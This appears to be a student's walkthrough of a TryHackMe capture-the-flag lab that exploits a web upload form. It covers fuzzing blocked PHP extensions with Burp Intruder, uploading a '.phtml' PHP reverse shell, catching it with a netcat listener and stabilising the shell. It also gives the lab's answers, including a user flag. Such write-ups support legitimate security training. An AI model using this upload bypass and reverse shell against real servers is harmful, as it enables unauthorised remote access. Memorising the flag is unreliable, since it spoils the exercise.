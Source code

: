 Now that you have found a form to upload files, we can leverage this to upload and execute our payload, which will lead to compromising the web server.

Answer the questions below

| Question                                                                                               | Answer |
| ------------------------------------------------------------------------------------------------------ | ------ |
| What common file type you'd want to upload to exploit the server is blocked? Try a couple to find out. | .php   |



We will fuzz the upload form to identify which extensions are not blocked.

To do this, we're going to use BurpSuite. If you need clarification on what BurpSuite is or how to set it up, please complete our [BurpSuite module](https://tryhackme.com/module/learn-burp-suite) first.

We're going to use Intruder (used for automating customised attacks).

To begin, make a wordlist with the following extensions:

- .php
- .php3
- .php4
- .php5
- .phtml

![](https://i.imgur.com/ED153Nx.png)

Now make sure BurpSuite is configured to intercept all your browser traffic. Upload a file; once this request is captured, send it to the Intruder. Click on "Payloads" and select the "Sniper" attack type.

![[Pasted image 20240302121719.png]]


![[Pasted image 20240302121928.png]]


Click the "Positions" tab now, find the filename and "Add §" to the extension. It should look like so:

![](https://i.imgur.com/6dxnzq6.png)


![[Pasted image 20240302122439.png]]

![[Pasted image 20240302122959.png]]

![[Pasted image 20240302123455.png]]

| Question                                    | Answer |
| ------------------------------------------- | ------ |
| Run this attack, what extension is allowed? | .phtml |


Now that we know what extension we can use for our payload, we can progress.

We are going to use a PHP reverse shell as our payload. A reverse shell works by being called on the remote host and forcing this host to make a connection to you. So you'll listen for incoming connections, upload and execute your shell, which will beacon out to you to control!

Download the following reverse PHP shell [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

To gain remote access to this machine, follow these steps:  

1. Edit the php-reverse-shell.php file and edit the ip to be your tun0 ip (you can get this by going to [http://10.10.10.10](http://10.10.10.10) in the browser of your TryHackMe connected device).  
      
    ![[Pasted image 20240302123948.png]]
    
1. Rename this file to php-reverse-shell.phtml  

	  ![[Pasted image 20240302124104.png]]
	  
    
3. We're now going to listen to incoming connections using netcat. Run the following command: 
   
```
nc -lvnp 1234
```

![[Pasted image 20240302124230.png]]


4. Upload your shell and navigate to **http://**10.10.227.251:3333/internal/uploads/php-reverse-shell.phtml** - This will execute your payload  

![[Pasted image 20240302124415.png]]


    
5. You should see a connection on your Netcat session

![](https://i.imgur.com/FGcvTCp.png)


![[Pasted image 20240302124518.png]]


*Stabilize shell*:

```
python -c "import pty; pty.spawn('/bin/bash')"
```

![[Pasted image 20240302233015.png]]

```
Ctrl+Z
```

![[Pasted image 20240302233654.png]]

```
stty raw -echo
```

```
fd
```

```
export TERM=xterm
```

![[Pasted image 20240302233742.png]]

| Question                                                | Answer |
| ------------------------------------------------------- | ------ |
| What is the name of the user who manages the webserver? | bill   |

![[Pasted image 20240302124717.png]]


| Question               | Answer                           |
| ---------------------- | -------------------------------- |
| What is the user flag? | 8bd7992fbe8a6ad22a63361004cfcedb |


![[Pasted image 20240302124749.png]]
